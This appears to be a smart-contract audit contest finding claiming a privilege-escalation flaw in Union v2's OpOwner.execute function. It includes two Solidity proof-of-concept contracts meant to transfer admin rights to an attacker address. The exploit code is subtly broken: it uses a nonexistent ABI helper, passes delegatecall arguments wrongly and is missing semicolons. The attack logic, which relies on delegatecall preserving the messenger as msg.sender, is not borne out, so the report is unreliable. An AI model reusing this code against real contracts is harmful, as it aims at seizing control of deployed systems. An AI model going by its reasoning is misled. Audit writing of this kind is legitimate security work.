 weeeh_

high

# Arbitrary call on OpOwner.execute function allows attacker to call contracts with OpOwner address as msg.sender

## Summary
`OpOwner.sol` contract does expose the `execute` function (https://github.com/sherlock-audit/2023-02-union/blob/main/union-v2-contracts/contracts/OpOwner.sol#L50-L60) with the modifier `onlyAuth`. The `onlyAuth` modifier will require that `msg.sender == admin()` or `msg.sender == address(ovmL2CrossDomainMessenger) && ovmL2CrossDomainMessenger.xDomainMessageSender() == owner()` to be true. 

In case we are calling as `ovmL2CrossDomainMessenger` and `ovmL2CrossDomainMessenger.xDomainMessageSender() == owner()` is true, then because `call` low level function is used, we could call contracts by using the OpOwner address as msg.sender.


## Vulnerability Detail
The following example is given:

 - The attacker crafts contractA smart contract on optimism chain which does invoke `functionA()` that calls `ovmL2CrossDomainMessenger.sendMessage(contractB, abi.encodeFunctionSignature("functionB()"), 12500000)`
 
```solidity
pragma solidity 0.8.16;

interface IOvmL2CrossDomainMessenger {
    function sendMessage(address _target, bytes memory _message, uint32 _gasLimit) public; 
}

contract ContractA {

  IOvmL2CrossDomainMessenger ovmL2CrossDomainMessenger;
  address contractB;
  
  constructor(address ovmL2CrossDomainMessenger_, address contractB_) {
    ovmL2CrossDomainMessenger = IOvmL2CrossDomainMessenger(ovmL2CrossDomainMessenger_);
    contractB = contractB_;
  }

  function functionA() public {
    ovmL2CrossDomainMessenger.sendMessage(contractB, abi.encodeFunctionSignature("functionB()"), 12500000);
  }

}
```
 
 - contractB is another smart contract developed on ethereum L1 chain which does call `OpOwner.execute` (which is on L1 chain) but using the delegatecall. So we are using as `msg.sender` the address `ovmL2CrossDomainMessenger` and as storage the ContractB one.

```solidity
pragma solidity 0.8.16;

contract ContractB {

  address OpOwner_address;
  
  constructor(address OpOwner_address_) {
    OpOwner_address = OpOwner_address_;
  }

  function functionB() public {
    OpOwner_address.delegatecall(
      abi.encodeWithSignature("execute(address,uint256,bytes)"),
      OpOwner_address,
      0,
      abi.encodePacked(
          abi.encodeWithSignature("transferAdmin(address)"),
          attacker_address
      )
    )
  }

}
```

 - What happens next is that we will execute `OpOwner.execute`, in particular the loc https://github.com/sherlock-audit/2023-02-union/blob/main/union-v2-contracts/contracts/OpOwner.sol#L55 which does invoke `call` low level function, with the address and calldata arguments given by ContractB. So now we can call whatever contract using OpOwner address as msg.sender and the storage will be the callee contract one. In the example above we call `OpOwner.transferAdmin(attacker_address)`

## Impact
The vulnerability could be considered a privilege escalation.

## Code Snippet
https://github.com/sherlock-audit/2023-02-union/blob/main/union-v2-contracts/contracts/OpOwner.sol#L50-L60

## Tool used
vim
Manual Review

## Recommendation
Check if msg.sender is equal to ovmL2CrossDomainMessenger, if so check the function was called by a `delegatecall` and act based on that